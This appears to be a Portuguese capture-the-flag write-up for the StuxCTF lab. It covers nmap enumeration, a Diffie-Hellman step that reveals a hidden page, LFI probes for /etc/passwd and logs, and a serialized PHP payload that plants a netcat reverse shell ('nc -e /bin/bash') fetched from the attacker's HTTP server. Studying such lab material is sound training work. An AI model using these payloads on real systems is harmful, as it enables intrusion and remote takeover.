





# _**StuxCTF**_


## _**Enumeração**_
Vamos começar com um scan de rede com <mark>Nmap</mark>
> ```bash
> nmap [ip_address]
> ```


Temos serviços nas portas **22** e **80**  
Vamos verificar o que temos na porta 80 primeiro  
Olhando com F12, encontramos uma _string_ aleatória  
Pesquisando sobre os caracteres, encontramos que se trata de um cálculo para **Diffie-Hellman**  
* <mark>p: um número primo extremamente grande utilizado como módulo</mark>
* <mark>g: a base (gerador) para os cálculos de exponenciação modular; c = a x b</mark>
* <mark>a e b: esses são expoentes usados para encontrar o valor de c</mark>
* <mark>g^e: é o resultado de g^c(mod p)</mark>

Calculando, é gerado um número gigante: 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055  

Inserindo na URL do site, encontramos a página escondida  


Ao inspecionar com F12, encontramos uma pista: --> **/?file=**  
Parece que podemos tentar inserir algumas coisas com essa string na URL  
Tentativas:
* /?file=/etc/passwd
* /?file=php://filter/convert.base64-encode/resource=index
* /?file=/var/log/apache2/access.log

Nenhuma delas deu retorno  
Podemos tentar criar um arquivo _.php_ com o seguinte trecho de código  
> ```bash
> <?php
> class file
> {
>  public $file = 'access.php';
>  public $data = '<?php shell_exec("nc -e /bin/bash [your_ip_address] [port]"); ?>';
> }
> echo (serialize(new file));
> ?>
> ```
Executamos o arquivo com ```php [filename] > shell.txt```  
Em seguida, ```python3 -m http.server 8000```  
Continuando, realizamos upload do arquivo _.txt_ com ```../?file=http://[your_ip_address]:8000/shell.txt```  
Para finalizar, ligamos nosso _listener_ na porta do arquivo de configuração e obtemos acesso acessando o endereço: ```http://[target_ip_address]/access.php```  



## _**User.txt & Escalando privilégios**_
Achei que teria que enviar **LinPEAS**, mas com **sudo su** obtive _root!_  
A partir daí, foi fácil encontrar _root.txt_  


